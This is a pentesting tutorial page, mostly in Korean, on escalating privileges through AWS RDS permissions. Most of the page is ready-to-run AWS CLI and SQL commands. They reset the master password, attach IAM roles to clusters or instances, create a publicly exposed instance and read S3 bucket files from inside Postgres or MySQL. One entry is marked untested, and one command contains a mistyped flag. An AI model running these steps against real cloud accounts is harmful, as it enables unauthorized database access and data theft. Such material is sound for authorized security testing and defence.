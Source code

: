 # AWS - RDS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## RDS - 관계형 데이터베이스 서비스

For more information about RDS check:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

해당 권한이 있으면 공격자는 **마스터 사용자 비밀번호를 수정**하고, 데이터베이스 내 로그인 정보를 변경할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> 데이터베이스에 **접속할 수 있어야 합니다** (보통 내부 네트워크에서만 접근 가능합니다).

**Potential Impact:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있습니다.

### rds-db:connect

해당 [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS Role IAM 권한 악용

#### Postgresql (Aurora)

> [!TIP]
> 만약 **`SELECT datname FROM pg_database;`**를 실행해 **`rdsadmin`**이라는 데이터베이스가 나오면, 당신은 **AWS postgresql database** 내부에 있다는 것을 알 수 있습니다.

먼저 이 데이터베이스가 다른 AWS 서비스에 접근하는 데 사용되었는지 확인할 수 있습니다. 설치된 extensions를 확인해 보세요:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`** 같은 항목을 찾으면, 이 데이터베이스가 **S3에 대한 어떤 형태의 접근 권한**을 가지고 있다고 가정할 수 있습니다 (다른 확장으로는 **`aws_ml`** 및 **`aws_lambda`** 등이 있습니다).

또한 **`aws rds describe-db-clusters`** 를 실행할 권한이 있다면, 해당 명령에서 **`AssociatedRoles`** 필드에 **cluster에 어떤 IAM Role이 연결되어 있는지** 확인할 수 있습니다. 만약 연결되어 있다면 데이터베이스가 **다른 AWS 서비스에 접근하도록 준비되어 있었다**고 가정할 수 있습니다. 역할의 **name**(또는 역할의 **permissions**를 확인할 수 있다면)을 바탕으로 데이터베이스가 어떤 추가 접근 권한을 갖는지 **guess**할 수 있습니다.

이제 **bucket 내부의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
만약 **raw AWS credentials**가 있다면, 이를 사용해 S3 데이터에 다음과 같이 접근할 수도 있습니다:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql은 S3에 접근하기 위해 **parameter group 변수를 변경할 필요가 없다**.

#### Mysql (Aurora)

> [!TIP]
> Mysql 내부에서 쿼리 **`SELECT User, Host FROM mysql.user;`** 를 실행했을 때 **`rdsadmin`**이라는 사용자가 있으면 **AWS RDS mysql db** 안에 있다고 간주할 수 있다.

Mysql 내부에서 **`show variables;`** 를 실행하고 **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** 같은 변수들이 값이 있다면, 데이터베이스가 S3 데이터에 접근할 준비가 되어 있다고 볼 수 있다.

또한 **`aws rds describe-db-clusters`** 를 실행할 권한이 있다면 클러스터에 어떤 **associated role** 이 연결되어 있는지 확인할 수 있으며, 이는 보통 AWS 서비스에 대한 접근을 의미한다).

이제 **버킷 안의 파일을 읽으려면** 전체 경로를 알아야 한다. 다음 명령으로 읽을 수 있다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

권한 `rds:AddRoleToDBCluster` 및 `iam:PassRole`를 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 합니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**잠재적 영향**: RDS 인스턴스의 민감한 데이터 접근 또는 데이터에 대한 무단 수정.\
일부 DB는 추가 구성이 필요합니다. 예를 들어 Mysql의 경우 role ARN을 parameter groups에도 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로 공격자는 이미 존재하고 **IAM role**이 연결되어 있는 클러스터 내에 **새 인스턴스**를 생성할 수 있습니다. 공격자는 마스터 사용자 비밀번호를 변경할 수는 없지만, 새 데이터베이스 인스턴스를 인터넷에 노출시킬 수 있습니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: 테스트

An attacker with the permissions `rds:CreateDBInstance` and `iam:PassRole` can **create a new RDS instance with a specified role attached**. The attacker can then potentially **access sensitive data** or modify the data within the instance.

> [!WARNING]
> 연결할 role/instance-profile의 일부 요구사항 (자세한 내용은 [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - 인스턴스 프로파일은 귀하의 계정에 존재해야 합니다.
> - 프로파일에는 Amazon EC2가 맡을 수 있는 권한을 가진 IAM 역할이 있어야 합니다.
> - 인스턴스 프로파일 이름과 연결된 IAM 역할 이름은 접두사 `AWSRDSCustom`으로 시작해야 합니다.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Potential Impact**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터의 무단 수정.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 합니다.

> [!WARNING]
> 이 작업을 위해 DB 인스턴스는 클러스터 외부에 있어야 합니다
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**잠재적 영향**: RDS 인스턴스 내 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

{{#include ../../../../banners/hacktricks-training.md}}
